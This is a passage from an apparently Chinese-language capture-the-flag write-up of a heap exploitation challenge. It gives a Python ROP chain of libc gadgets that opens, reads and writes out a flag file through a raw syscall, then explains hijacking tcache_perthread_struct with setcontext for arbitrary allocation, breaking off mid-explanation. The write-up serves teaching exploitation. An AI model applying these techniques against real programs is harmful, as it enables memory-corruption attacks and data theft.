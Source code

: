 构造orw
-----

没啥说的，就是构造。

```python
flag_addr = heap_base+0x2000

pop_rax_ret = base+0x000000000001ced0
pop_rdi_ret = base+0x000000000002144f
pop_rsi_ret = base+0x0000000000021e22
pop_rdx_ret = base+0x0000000000001b96
read = base+libc.sym["read"]
write = base+libc.sym["write"]
syscall = read_f+0xf#程序中找不到open，就利用系统调用

orw = p64(pop_rdi_ret)+p64(flag_addr)
orw += p64(pop_rsi_ret)+p64(0)
orw += p64(pop_rax_ret)+p64(2)
orw += p64(syscall)
orw += p64(pop_rdi_ret)+p64(3)
orw += p64(pop_rsi_ret)+p64(flag_addr)
orw += p64(pop_rdx_ret)+p64(0x30)
orw += p64(read_f)
orw += p64(pop_rdi_ret)+p64(1)
orw += p64(pop_rsi_ret)+p64(flag_addr)
orw += p64(pop_rdx_ret)+p64(0x30)
orw += p64(write_f)
```

根据setcontext进行构造
----------------

### tcache\_head

在进行布置的时候为了更好的去利用，官方的wp中hijack了tcache\_perthread\_struct，那么我们就看一下tcache\_perthread\_struct的结构：

```c
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];//数组长度64，每个元素最大为0x7，仅占用一个字节（对应64个tcache链表）
  tcache_entry *entries[TCACHE_MAX_BINS];//entries指针数组（对应64个tcache链表，cache bin中最大为0x400字节
  //每一个指针指向的是对应tcache_entry结构体的地址。
} tcache_perthread_struct;
```

我们看到上面的结构体里面，在counts之后存在tcache链的指针，指向每一个大小的tcache链的下一个堆块的fd。也就是意味着我们只要劫持了这里的指针我们就能实现任意地址分配堆块。这里的布置利用的就是这个结构体中的指针。

### 布置

在布置的时候我们可以选择一个堆块为参数，就是以这个堆块的地址作为rdi，布置数据要根据此参数作为索引。

首先我们要先把堆块分配到tcache\_entry的位置

